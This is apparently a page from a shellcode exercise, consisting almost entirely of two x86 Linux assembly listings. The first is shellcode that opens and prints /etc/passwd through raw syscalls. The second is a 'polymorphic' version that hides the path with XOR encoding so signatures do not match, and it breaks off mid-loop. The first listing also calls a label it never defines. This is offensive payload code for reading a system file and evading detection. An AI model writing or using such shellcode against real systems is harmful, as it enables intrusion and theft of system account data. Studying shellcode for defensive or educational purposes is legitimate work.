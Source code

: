 ```nasm
pop ebx
mov al, 0x5
xor ecx, ecx
int 0x80
mov esi, eax
jmp read

exit:

mov al, 0x1
xor ebx, ebx
int 0x80

read:

mov ebx, esi
mov al, 0x3
sub esp, 0x1
lea ecx, [esp]
mov dl, 0x1
int 0x80

xor ebx, ebx
cmp ebx, eax
je exit

mov al, 0x4
mov bl, 0x1
mov dl, 0x1
int 0x80

add esp, 0x1
jmp short read

two:

call one
db '/etc/passwd'
```

### Polymorphic code

```nasm
section .text

global _start

_start:

push 0xbadacd9c                 ; //etc/passwd (XOR encoded)
push 0xbfdd918c
push 0xaac891c0

xor ecx, ecx
mov cl, 3
mov edx, esp

decode:

mov eax, dword [edx]
xor eax, 0xdeadbeef             ; XOR key
mov dword [edx], eax
add edx, 0x4
```